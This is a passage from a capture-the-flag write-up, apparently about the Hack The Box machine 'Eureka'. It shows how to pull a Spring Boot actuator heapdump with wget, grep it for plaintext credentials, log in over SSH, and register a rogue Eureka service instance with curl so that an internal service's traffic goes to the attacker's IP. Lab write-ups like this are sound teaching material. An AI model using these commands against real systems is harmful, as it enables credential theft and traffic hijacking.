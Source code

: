We download the file `/actuator/heapdump` and look for interesting strings:
```bash
wget http://furni.htb/actuator/heapdump -O heapdump.hprof
strings heapdump.hprof | grep -i 'passw'
strings heapdump.hprof | grep -i '8761'
```

```
{password=0sc@r190_S0l!dP@sswd, user=oscar190}!
http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka
```

We try to login with `EurekaSrvr:0scarPWDisTheB3st` on `http://eureka.htb:8761` and we see a Eureka Netflix Spring Cloud. 

We try to log in with `oscar190:0sc@r190_S0l!dP@sswd` on ssh `eureka.htb` and we get a shell.

## User Exploitation

We check for `sudo` privileges:
```bash
sudo -l
```
```
[sudo] password for oscar190: 
Sorry, user oscar190 may not run sudo on localhost.
```

We look for Eureka Netflix Spring Cloud vulnerabilities online. And we find this [https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka](https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka).

We will add a new service instance of `USER-MANAGEMENT-SERVICE` and listen on port 8081.
```bash
curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/apps/USER-MANAGEMENT-SERVICE  -H 'Content-Type: application/json' -d '{ 
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "hostName": "10.10.14.216",
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "10.10.14.216",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": {   
      "$": 8081,
      "@enabled": "true"
    },
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}
'
```
